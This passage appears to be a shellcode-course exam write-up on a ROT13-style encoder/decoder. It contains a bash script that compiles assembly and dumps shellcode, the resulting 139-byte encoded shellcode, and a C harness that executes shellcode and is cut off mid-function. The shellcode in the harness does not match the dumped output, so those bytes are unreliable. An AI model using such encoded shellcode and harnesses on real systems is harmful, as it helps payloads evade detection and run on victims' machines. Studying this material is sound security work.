 ## Compiling our custom encoder/decoder

So if you're not aware we can't just run assembly from the file, it first needs to be compile and then linked.

During my testing I went ahead and created a file that foes all this along with dumping the shellcode of the compiled file. Please use it to compile your assembly file:
```
# This compiles your assembly code and dumps the shellcode 

# Compile and output
nasm -f elf32 -o $1.o $1.asm; ld -d -o $1 $1.o

# Gets shellcode from output file

## Prints the shellcode in little endian

RAW=$(objdump -d "$1" -M intel | grep "^ "|awk -F"[\t]" '{print $2}')
SHELLCODE=""
COUNT=0
for word in $RAW
do
	SHELLCODE=${SHELLCODE}${word:6:2}${word:4:2}${word:2:2}${word:0:2}
	((COUNT++))
done
echo ""
echo "Shellcode: "
echo $SHELLCODE | sed 's/ //g'| sed 's/.\{2\}/\\x&/g'|paste -d '' -s
echo "Shellcode size: ${COUNT} bytes"
```


You then pass the name (NOT INCLUDING EXTENSION) as an argument to the bash file to compile and link it like so:
```
root@ubuntu:/mnt/hgfs/assembly/exam/4-Assignment# ./compile-shell-dump.sh rot13-decoder

Shellcode: 
\xeb\x24\x5e\x31\xc9\xb1\x60\x80\x3e\x0d\x7c\x05\x80\x2e\x0d\xeb\x10\x31\xd2\xb2\x0d\x2a\x16\x31\xdb\xb3\xff\x43\x66\x29\xd3\x88\x1e\x46\xe2\xe3\xeb\x05\xe8\xd7\xff\xff\xff\x3e\xcd\xbd\x73\x3e\xe8\xc0\x0e\x3e\xd6\x5e\x60\x77\x0f\x96\xee\xda\x8d\x3e\x0c\x96\xd4\x3e\xcd\xbd\x73\x3e\xd6\xc6\x8d\x0e\x0e\x0f\x8e\xf6\x0e\x0e\x0e\x0e\x5e\x73\x75\x1e\x69\x50\x73\x60\x96\xee\x77\x1d\x5e\x64\x96\xee\x50\xda\x8d\x3e\xd6\xbe\x0f\x3e\xcd\xbd\x4c\xda\x8d\x56\x86\x06\x3e\xcd\xbd\x18\x3e\xe8\x60\x75\x3c\x3c\x80\x75\x75\x3c\x6f\x76\x7b\x96\xf0\x3e\xd6\x3e\xdf\xda\x8d
Shellcode size: 139 bytes
```


Now we'll take the dumped shellcode and place it in a C file, we do this to confirm it works in a C program.
```
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x24\x5e\x31\xc9\xb1\x60\x80\x3e\x0d\x7c\x05\x80\x2e\x0d\xeb\x10\x31\xd2\xb2\x0d\x2a\x16\x31\xdb\xb3\xff\x43\x66\x29\xd3\x88\x1e\x46\xe2\xe3\xeb\x05\xe8\xd7\xff\xff\xff\x3e\xcd\xbd\x73\x3e\xe8\x60\x50\x60\x77\x0f\x96\xee\xda\x8d\x3e\x03\x96\xd3\xbd\x73\x68\x67\x3e\xdf\x5f\x73\x75\x1e\x69\x77\x1d\x5e\x63\x96\xee\xda\x8d\xbd\x73\xc0\x11\x63\x3e\xd6\x96\xee\xda\x8d\xbd\x73\xc0\x12\x63\x96\xee\xda\x8d\x3e\xe8\x96\xd0\x3e\xd6\xbe\x0f\xbd\x4c\xda\x8d\x56\x86\x06\x3e\xcd\xbd\x18\x3e\xe8\x60\x75\x3c\x3c\x80\x75\x75\x3c\x6f\x76\x7b\x96\xf0\x3e\xd6\xda\x8d";

main(){

	printf("Shellcode Length: %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
```